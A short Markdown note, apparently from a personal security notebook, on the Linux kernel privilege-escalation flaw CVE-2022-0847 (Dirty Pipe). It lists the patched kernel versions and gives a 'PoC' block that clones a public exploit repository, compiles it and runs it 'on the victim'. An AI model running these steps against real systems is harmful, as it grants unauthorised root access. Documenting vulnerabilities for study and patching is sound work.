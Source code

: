 # Brief

>[!INFO]
>CVE 2022-0847 is a **privilege escalation** vulnerability discovered by Max Kellerman present in Linux Kernel itself post versions **5.8** which allows **overwriting data in arbitrary read-only files or in simpler words**, lets unprivileged processes inject code in privileged/root process and thus, escalating privilege.

# PoC

```bash
# on the victim
git clone https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit.git
cd CVE-2022-0847-DirtyPipe-Exploit
./compile.sh
./exploit
```

# Patch status

>[!SUCCESS] The vulnerability has been fixed in **Linux 5.16.11, 5.15.25, and 5.10.102** with new patches ongoing.